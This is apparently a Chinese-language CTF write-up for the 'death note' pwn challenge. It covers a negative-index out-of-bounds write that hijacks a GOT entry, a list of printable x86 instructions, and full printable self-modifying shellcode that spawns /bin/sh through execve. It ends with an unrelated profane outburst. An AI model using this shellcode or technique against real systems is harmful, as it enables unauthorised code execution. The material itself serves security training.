






# death note

## 程序流程

一个选择程序。



`add_note`:

这个地方有一个数组越界的漏洞：



这个v1没有限制负数，所以在可以把`note`低地址的位置改成一个指向一个系统分配的任意地址，这个地址中存的内容是刚刚输进去的`name`。

## 漏洞

低地址的位置有`got`表，而且又有`rwx`段在 ,还刚好在heap段，这个题应该是覆盖某个函数的`got`项指向`shellcode`





问题就是这个`printable`，也就是说`shellcode`需要限制在`0x2f`～`0x7f`范围内，

## 利用

有大佬总结了在这个范围内的汇编代码

```asm
1.数据传送:
push/pop eax…
pusha/popa

2.算术运算:
inc/dec eax…
sub al, 立即数
sub byte ptr [eax… + 立即数], al dl…
sub byte ptr [eax… + 立即数], ah dh…
sub dword ptr [eax… + 立即数], esi edi
sub word ptr [eax… + 立即数], si di
sub al dl…, byte ptr [eax… + 立即数]
sub ah dh…, byte ptr [eax… + 立即数]
sub esi edi, dword ptr [eax… + 立即数]
sub si di, word ptr [eax… + 立即数]

3.逻辑运算:
and al, 立即数
and dword ptr [eax… + 立即数], esi edi
and word ptr [eax… + 立即数], si di
and ah dh…, byte ptr [ecx edx… + 立即数]
and esi edi, dword ptr [eax… + 立即数]
and si di, word ptr [eax… + 立即数]

xor al, 立即数
xor byte ptr [eax… + 立即数], al dl…
xor byte ptr [eax… + 立即数], ah dh…
xor dword ptr [eax… + 立即数], esi edi
xor word ptr [eax… + 立即数], si di
xor al dl…, byte ptr [eax… + 立即数]
xor ah dh…, byte ptr [eax… + 立即数]
xor esi edi, dword ptr [eax… + 立即数]
xor si di, word ptr [eax… + 立即数]

4.比较指令:
cmp al, 立即数
cmp byte ptr [eax… + 立即数], al dl…
cmp byte ptr [eax… + 立即数], ah dh…
cmp dword ptr [eax… + 立即数], esi edi
cmp word ptr [eax… + 立即数], si di
cmp al dl…, byte ptr [eax… + 立即数]
cmp ah dh…, byte ptr [eax… + 立即数]
cmp esi edi, dword ptr [eax… + 立即数]
cmp si di, word ptr [eax… + 立即数]

5.转移指令:
push 56h
pop eax
cmp al, 43h
jnz lable

<=> jmp lable

6.交换al, ah
push eax
xor ah, byte ptr [esp] // ah ^= al
xor byte ptr [esp], ah // al ^= ah
xor ah, byte ptr [esp] // ah ^= al
pop eax

7.清零:
push 44h
pop eax
sub al, 44h ; eax = 0

push esi
push esp
pop eax
xor [eax], esi ; esi = 0
```

一般写shellcode都是用的`int 0x80`进行系统软中断。

这里再插一张`intel cpu`下32位寄存器的架构：



调用`execve("/bin/sh",0,0)`

```
eax 0xb
ebx addr_bin_sh
ecx 0
edx 0
```

但是`int 0x80`本身不在范围之内，所以在`shellcode`里面的指令要继续要更改`shellcode`。大佬的`writeup`分析在调用这个`shellcode`的时候`edx`里面是`shellcode`的起始地址。



那么可以把`shellcode`构造成以下几个部分：

```
1、 在末尾加上`int 0x80`
2、 输入 /bin/sh\x00 并把地址写ebx
3、 改写eax、edx、ecx
```

```asm
shellcode = '''
    /* execve(path='/bin///sh', argv=0, envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    push esp
    pop ebx
   /*rewrite shellcode to get 'int 80'*/
    push edx
    pop eax
    push 0x60606060
    pop edx
    sub byte ptr[eax + 0x35] , dl
    sub byte ptr[eax + 0x35] , dl
    sub byte ptr[eax + 0x34] , dl
    push 0x3e3e3e3e
    pop edx
    sub byte ptr[eax + 0x34] , dl
    /*set zero to edx*/
    push ecx
    pop edx
   /*set 0x0b to eax*/
    push edx
    pop eax
    xor al, 0x40
    xor al, 0x4b    
  /*foo order,for holding the  place*/
    push edx
    pop edx
    push edx
    pop edx
'''
shellcode = asm(shellcode) + '\x6b\x40'
```

直接用了大佬写的，妈的，七八岁的小男孩子真他妈讨嫌，滚滚滚！！！


